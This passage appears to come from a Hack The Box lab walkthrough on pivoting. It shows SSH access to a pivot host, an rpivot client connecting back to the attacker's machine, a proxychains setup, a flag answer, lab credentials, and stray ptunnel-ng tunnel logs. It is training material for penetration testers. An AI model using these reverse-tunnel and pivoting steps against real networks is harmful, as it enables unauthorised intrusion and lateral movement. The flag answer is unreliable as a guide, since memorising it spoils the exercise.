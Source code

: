 ```
┌─[us-academy-1]─[10.10.14.22]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh ubuntu@10.129.202.64

ubuntu@10.129.202.64's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

ubuntu@WEB01:~$
```

Once successfully connected to the pivot host, students need to run "client.py" to connect to the `rpivot` server that is running on Pwnbox/`PMVPN`:

Code: shell

```shell
python2.7 client.py --server-ip PWNIP --server-port 9999
```

```
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.22 --server-port 9999

Backconnecting to server 10.10.14.22 port 9999
```

Students need to make sure that the following Socks4 entry is present in the `/etc/proxychains.conf` file:

Code: shell

```shell
Socks4 127.0.0.1 9050
```

At last, from Pwnbox/`PMVPN`, students need to use `proxychains` to open Firefox and browse the root web page of the web server on port 80 of the internal network target `172.16.5.135`:

![[HTB Solutions/CPTS/z. images/7e091f4f6eff91cd57ea01619b3169a6_MD5.jpg]]

Students will find the flag at the top of the web page.

Answer: `I_L0v3_Pr0xy_Ch@ins`

# Port Forwarding with Windows: Netsh

## Question 1

### "Using the concepts covered in this section, take control of the DC using xfreerdp by pivoting through the Windows 10 target host. Submit the approved contact's name found inside the "VendorContacts.txt" file located in the "Approved Vendors" folder on Victor's desktop (victor's credentials: victor:pass@123)."


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.